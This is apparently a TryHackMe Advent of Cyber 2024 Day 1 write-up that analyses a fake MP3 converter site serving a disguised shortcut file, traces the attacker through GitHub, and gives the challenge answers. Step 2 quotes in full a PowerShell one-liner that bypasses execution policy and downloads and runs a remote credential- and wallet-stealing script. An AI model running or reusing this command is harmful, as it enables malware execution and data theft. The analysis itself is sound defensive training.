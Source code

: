 # 🎄 TryHackMe Advent of Cyber 2024 – Day 1: OPSEC Challenge

## Objectives 🎯

Day 1 begins the **Advent of Cyber 2024** with an exciting challenge to investigate a suspicious YouTube to MP3 converter website. The focus is on:
1. Analyzing downloaded files to uncover malicious behavior.
2. Investigating embedded metadata and suspicious scripts.
3. Tracing the attacker’s digital breadcrumbs to expose their OPSEC mistakes.

## Steps 🚀

### Step 1: Investigating the Website
1. **Access the website:**  
   Hosted at `10.10.200.221`, the site appeared to be a standard YouTube to MP3 converter.
2. **Download the files:**  
   I entered a YouTube link, which downloaded a `download.zip` file containing:
   - **`song.mp3`**: A legitimate audio file.
   - **`somg.mp3`**: A suspiciously named file.

### Step 2: File Analysis Using ExifTool
- **Analyzing `song.mp3`:**  
  Running `exiftool song.mp3` revealed nothing unusual—just a standard MP3 file.
- **Analyzing `somg.mp3`:**  
  Running `exiftool somg.mp3` revealed:
  - It was a Windows Shortcut file (`.lnk`), not an MP3.
  - Metadata contained an embedded PowerShell command:
    ```
    -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
    ```
  This command bypasses PowerShell execution policies, downloads a malicious script, and executes it.

### Step 3: Opening the Embedded URL
- **Inspect the URL:**  
  The URL hosted a PowerShell script designed to steal:
  - Cryptocurrency wallet files.
  - Browser credentials.
- **C2 Server:**  
  Stolen data was sent to a Command and Control (C2) server controlled by the attacker.

### Step 4: Tracing the Attacker on GitHub
- **Signature in Script:**  
  The script contained the signature:
  ```
  "Created by the one and only M.M."
  ```
- **Search Results:**  
  Searching GitHub for `"Created by the one and only M.M."` led to:
  - A repository owned by **M.M.**
  - Comments tying their account to malicious activity.

## Key Findings 🔑

1. **Legitimate File:** `song.mp3` was harmless.
2. **Malicious File:** `somg.mp3` contained a PowerShell command to execute a malicious script.
3. **C2 Server:** The attacker’s script sent stolen data to a remote server.
4. **Attacker Identity:** Poor OPSEC practices on GitHub exposed "M.M."

## Lessons Learned 🌟

### OPSEC Failures
1. **Reused Aliases:**  
   The attacker used the same alias ("M.M.") across platforms, making them easier to track.
2. **Identifiable Metadata:**  
   Including a signature in the script created a direct link to their identity.
3. **Public Interactions:**  
   GitHub comments connected their profile to the malicious activity.

### Tools and Techniques 🛠️
1. [ExifTool](https://exiftool.org/) – Extracted metadata to uncover the embedded PowerShell command.
2. **Browser Inspection:** Investigated URLs to find malicious scripts.
3. [GitHub Search](https://github.com/) – Traced the attacker through their digital breadcrumbs.

## Final Thoughts 🎁

Day 1 was an excellent introduction to metadata analysis and attacker investigation. Tracking down M.M. using GitHub highlighted how OPSEC failures can leave attackers exposed. This challenge provided a perfect mix of technical analysis and detective work to kick off the Advent of Cyber!

### Answers ✅
1. **What file was harmless?**  
   **Answer:** `song.mp3`
2. **What was the embedded PowerShell command used for?**  
   **Answer:** Bypassed execution policies, downloaded a malicious script, and executed it.
3. **What is the attacker’s alias?**  
   **Answer:** `M.M.`

## Table of Contents 📚

## Table of Contents 📚

## Table of Contents 📚

| Day  | Challenge                              | Day  | Challenge                               | Day  | Challenge                               |
|------|----------------------------------------|------|-----------------------------------------|------|-----------------------------------------|
| 📖  | [README](../README.md)                 | 9    | [Risk Assessment](days/day9.md)         | 17   | [Log Analysis](days/day_17.md)          |
| 1    | **OPSEC Challenge**                   | 10   | [Phishing](days/day_10.md)              | 18   | [Prompt Injection](days/day_18.md)      |
| 2    | [Log Analysis](days/day2.md)           | 11   | [Wi-Fi Attacks](days/day_11.md)         | 19   | [Game Hacking](days/day_19.md)          |
| 3    | [Log Analysis](days/day3.md)           | 12   | [Web Timing Attacks](days/day_12.md)    | 20   | [Traffic Analysis](days/day_20.md)      |
| 4    | [Atomic Red Team](days/day4.md)        | 13   | [WebSockets](days/day_13.md)            | 21   | [Reverse Engineering](days/day_21.md)   |
| 5    | [XXE](days/day5.md)                    | 14   | [Certificate Mismanagement](days/day_14.md)| 22 | [Kubernetes DFIR](days/day_22.md)       |
| 6    | [Sandboxes](days/day6.md)              | 15   | [Active Directory](days/day_15.md)      | 23   | [Hash Cracking](days/day_23.md)         |
| 7    | [AWS Sandboxes](days/day7.md)          | 16   | [Azure Exploitation](days/day_16.md)    | 24   | [Communication Protocols](days/day_24.md)|
| 8    | [Shellcodes](days/day8.md)             |      | **Merry SOC-mas!** 🎁✨☃️              |      | 🎄✨🎅                                |
